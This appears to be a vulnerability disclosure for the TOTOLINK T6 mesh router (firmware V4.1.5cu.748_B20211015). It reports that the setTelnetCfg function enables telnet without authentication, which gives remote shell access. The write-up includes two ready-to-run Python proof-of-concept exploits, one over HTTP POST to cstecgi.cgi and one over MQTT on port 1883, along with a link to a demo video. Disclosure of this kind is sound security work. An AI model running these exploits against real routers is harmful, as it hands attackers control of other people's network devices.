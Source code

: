 # Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

An attacker can have remote shell on TOTOLINK Mesh Wifi T6 by turn on the `telnet` service.

# Vulnerability details

`setTelnetCfg` can be called to enable `telnet` service without authen. An attacker can send HTTP POST packet.<br>
Or attacker can send `MQTT` packet on port `1883`.

# POC HTTP

```python
import requests, sys

if len(sys.argv) != 2:
    data = b'''
    {
        "topicurl":"setTelnetCfg",
        "telnet_enabled":"1"
    }
    '''

    url = f"http://192.168.0.1/cgi-bin/cstecgi.cgi"

    requests.post(url, data=data)
```

# POC MQTT

```python
import paho.mqtt.client as mqtt
import sys

if len(sys.argv) != 2:
    data = b'''
    {
    "telnet_enabled":"1"
    }
    '''

    client = mqtt.Client()
    client.connect("192.168.0.1", 1883, 60)
    client.publish("totolink/router/setTelnetCfg",data)
```

# POC Video
[Video](https://www.youtube.com/watch?v=XeKu3tfeSME)